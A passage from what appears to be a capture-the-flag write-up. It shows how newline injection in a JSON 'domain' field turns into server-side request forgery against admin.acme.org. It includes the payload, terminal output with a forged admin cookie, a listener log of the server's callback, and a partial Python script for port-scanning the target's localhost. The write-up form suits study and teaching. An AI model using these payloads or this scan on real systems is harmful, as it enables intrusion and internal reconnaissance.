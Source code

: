 So, basically all the constrains are bypassed now? aren't they? Here's the plan:

Instead of injecting one newline, we can inject two newlines. The first domain will satisfy the subdomain condition, the third one will satisfy the '.com' at the end, and we can use anything as the middle domain.
```
{"domain" : "212sub.<random>\n<any domain we want>/<any path>\n<random>.com"}
```

And then since it will return the ID of the last one, we can just subtract 1 from it, and then send a request to `read.php` with that ID, and TADA, the response will be returned to us.

Let's try it

```sh
--local--

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ python ssrf.py '212.randomd.com\n45.32.162.220/lol.file\nanother.lol.com'
Reading id -> 62
Empty response

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ curl 'admin.acme.org/read.php?id=61' -b 'admin=yes'
{"data":"SEVIRQo="}

jazzy@lolbox /home/data/Hack_stuff/h1ctf2 $ echo "SEVIRQo="|base64 -d
HEHE

--local--

--remote--

Listening on [0.0.0.0] (family 0, port 80)
Connection from [104.236.20.43] port 80 [tcp/*] accepted (family 2, sport 42476)
GET /lol.file HTTP/1.0
Host: 45.32.162.22

--remote--

```

So FINALLY, it works. Now what?? 

Good question. I was stuck here for 2 hours. I didn't know what I'd do now since I escalated the SSRF to max i could. I tried using file URI to load local files, but no luck. I was totally stuck. Goddamn @jobert.

Then it just magically occured to me that I should port scan their localhost, maybe they have some interesting services running there. I modified the script to do a port scan of the localhost. Here is the modified script.

```python
import requests
import json

data = '{"domain":"212.randd.com/lol\\nlocalhost:%s\\ntest.com"}'

domain = 'http://admin.acme.org/index.php'
readp = 'http://admin.acme.org/read.php?id=%d'

def readId(idd):
	return requests.get(readp%idd,cookies={'admin':'yes'},timeout=2.5).json()['data']

def getPort(num):
	return int(requests.post(domain,json=json.loads(data%num), cookies={'admin':'yes'}, timeout=2.5).json()['next'].split('=')[1])


```
